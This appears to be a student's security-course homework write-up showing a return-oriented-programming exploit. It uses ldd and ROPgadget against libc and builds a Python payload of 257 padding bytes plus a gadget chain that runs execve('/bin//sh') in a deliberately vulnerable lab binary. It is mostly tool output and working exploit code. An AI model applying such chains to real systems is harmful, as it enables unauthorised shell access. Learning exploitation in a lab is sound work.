

# Homework 2

David Luo

811357331

## Experience

This homework was pretty easy just following the steps listed in the pdf in the GitHub repo.

## Steps

Use `ldd` to get location of `libc` in memory.

```
ubuntu@ubuntu-vm:~/hw2$ ldd ./bin/proj1_dep_Luo.David 
        linux-gate.so.1 =>  (0xf7fd8000)
        libc.so.6 => /lib32/libc.so.6 (0xf7e17000)
        /lib/ld-linux.so.2 (0xf7fd9000)
```

Use ROPchain with the path to `libc` and the location of it in `proj1_dep_Luo.David`.

```
ubuntu@ubuntu-vm:~/hw2$ ROPgadget --binary /lib32/libc.so.6 --offset 0xf7e17000 --ropchain
```

```
...

Unique gadgets found: 32804

ROP chain generation
===========================================================

- Step 1 -- Write-what-where gadgets

	[+] Gadget found: 0xf7e9363c mov dword ptr [esi], ebx ; pop ebx ; pop esi ; ret
	[+] Gadget found: 0xf7e2e828 pop esi ; ret
	[+] Gadget found: 0xf7e2f395 pop ebx ; ret
	[-] Can't find the 'xor ebx, ebx' gadget. Try with another 'mov [r], r'

	[+] Gadget found: 0xf7f340ab mov dword ptr [edx], esi ; pop ebx ; pop esi ; ret
	[+] Gadget found: 0xf7e18aa6 pop edx ; ret
	[+] Gadget found: 0xf7e2e828 pop esi ; ret
	[-] Can't find the 'xor esi, esi' gadget. Try with another 'mov [r], r'

	[+] Gadget found: 0xf7e53cd8 mov dword ptr [edx], ecx ; ret
	[+] Gadget found: 0xf7e18aa6 pop edx ; ret
	[+] Gadget found: 0xf7ecb047 pop ecx ; ret
	[-] Can't find the 'xor ecx, ecx' gadget. Try with another 'mov [r], r'

	[+] Gadget found: 0xf7f47394 mov dword ptr [edx], ecx ; pop ebx ; ret
	[+] Gadget found: 0xf7e18aa6 pop edx ; ret
	[+] Gadget found: 0xf7ecb047 pop ecx ; ret
	[-] Can't find the 'xor ecx, ecx' gadget. Try with another 'mov [r], r'

	[+] Gadget found: 0xf7e8234b mov dword ptr [edx], eax ; ret
	[+] Gadget found: 0xf7e18aa6 pop edx ; ret
	[+] Gadget found: 0xf7e3af97 pop eax ; ret
	[+] Gadget found: 0xf7e435fc xor eax, eax ; ret

- Step 2 -- Init syscall number gadgets

	[+] Gadget found: 0xf7e435fc xor eax, eax ; ret
	[+] Gadget found: 0xf7e1eeec inc eax ; ret

- Step 3 -- Init syscall arguments gadgets

	[+] Gadget found: 0xf7e2f395 pop ebx ; ret
	[+] Gadget found: 0xf7ecb047 pop ecx ; ret
	[+] Gadget found: 0xf7e18aa6 pop edx ; ret

- Step 4 -- Syscall gadget

	[+] Gadget found: 0xf7e19c87 int 0x80

- Step 5 -- Build the ROP chain

	#!/usr/bin/env python2
	# execve generated by ROPgadget

	from struct import pack

	# Padding goes here
	p = ''

	p += pack('<I', 0xf7e18aa6) # pop edx ; ret
	p += pack('<I', 0xf7fc7040) # @ .data
	p += pack('<I', 0xf7e3af97) # pop eax ; ret
	p += '/bin'
	p += pack('<I', 0xf7e8234b) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0xf7e18aa6) # pop edx ; ret
	p += pack('<I', 0xf7fc7044) # @ .data + 4
	p += pack('<I', 0xf7e3af97) # pop eax ; ret
	p += '//sh'
	p += pack('<I', 0xf7e8234b) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0xf7e18aa6) # pop edx ; ret
	p += pack('<I', 0xf7fc7048) # @ .data + 8
	p += pack('<I', 0xf7e435fc) # xor eax, eax ; ret
	p += pack('<I', 0xf7e8234b) # mov dword ptr [edx], eax ; ret
	p += pack('<I', 0xf7e2f395) # pop ebx ; ret
	p += pack('<I', 0xf7fc7040) # @ .data
	p += pack('<I', 0xf7ecb047) # pop ecx ; ret
	p += pack('<I', 0xf7fc7048) # @ .data + 8
	p += pack('<I', 0xf7e18aa6) # pop edx ; ret
	p += pack('<I', 0xf7fc7048) # @ .data + 8
	p += pack('<I', 0xf7e435fc) # xor eax, eax ; ret
	p += pack('<I', 0xf7e1eeec) # inc eax ; ret
	p += pack('<I', 0xf7e1eeec) # inc eax ; ret
	p += pack('<I', 0xf7e1eeec) # inc eax ; ret
	p += pack('<I', 0xf7e1eeec) # inc eax ; ret
	p += pack('<I', 0xf7e1eeec) # inc eax ; ret
	p += pack('<I', 0xf7e1eeec) # inc eax ; ret
	p += pack('<I', 0xf7e1eeec) # inc eax ; ret
	p += pack('<I', 0xf7e1eeec) # inc eax ; ret
	p += pack('<I', 0xf7e1eeec) # inc eax ; ret
	p += pack('<I', 0xf7e1eeec) # inc eax ; ret
	p += pack('<I', 0xf7e1eeec) # inc eax ; ret
	p += pack('<I', 0xf7e19c87) # int 0x80
```

Put the above output in `rop.py` and change the initial value of `p` to be `'A' * 257` as in `proj1`, and add a statement to print out the value of `p`.

`rop.py`:

```python
#!/usr/bin/env python2
# execve generated by ROPgadget

from struct import pack

# Padding goes here
p = 'A' * 257

p += pack('<I', 0xf7e18aa6) # pop edx ; ret
p += pack('<I', 0xf7fc7040) # @ .data
p += pack('<I', 0xf7e3af97) # pop eax ; ret
p += '/bin'
p += pack('<I', 0xf7e8234b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0xf7e18aa6) # pop edx ; ret
p += pack('<I', 0xf7fc7044) # @ .data + 4
p += pack('<I', 0xf7e3af97) # pop eax ; ret
p += '//sh'
p += pack('<I', 0xf7e8234b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0xf7e18aa6) # pop edx ; ret
p += pack('<I', 0xf7fc7048) # @ .data + 8
p += pack('<I', 0xf7e435fc) # xor eax, eax ; ret
p += pack('<I', 0xf7e8234b) # mov dword ptr [edx], eax ; ret
p += pack('<I', 0xf7e2f395) # pop ebx ; ret
p += pack('<I', 0xf7fc7040) # @ .data
p += pack('<I', 0xf7ecb047) # pop ecx ; ret
p += pack('<I', 0xf7fc7048) # @ .data + 8
p += pack('<I', 0xf7e18aa6) # pop edx ; ret
p += pack('<I', 0xf7fc7048) # @ .data + 8
p += pack('<I', 0xf7e435fc) # xor eax, eax ; ret
p += pack('<I', 0xf7e1eeec) # inc eax ; ret
p += pack('<I', 0xf7e1eeec) # inc eax ; ret
p += pack('<I', 0xf7e1eeec) # inc eax ; ret
p += pack('<I', 0xf7e1eeec) # inc eax ; ret
p += pack('<I', 0xf7e1eeec) # inc eax ; ret
p += pack('<I', 0xf7e1eeec) # inc eax ; ret
p += pack('<I', 0xf7e1eeec) # inc eax ; ret
p += pack('<I', 0xf7e1eeec) # inc eax ; ret
p += pack('<I', 0xf7e1eeec) # inc eax ; ret
p += pack('<I', 0xf7e1eeec) # inc eax ; ret
p += pack('<I', 0xf7e1eeec) # inc eax ; ret
p += pack('<I', 0xf7e19c87) # int 0x80

print(p)
```

Use the generated script's output as an argument for `proj1_dep_Luo.David`.

```
ubuntu@ubuntu-vm:~/hw2$ ./proj1_dep_Luo.David $(python rop.py)
```


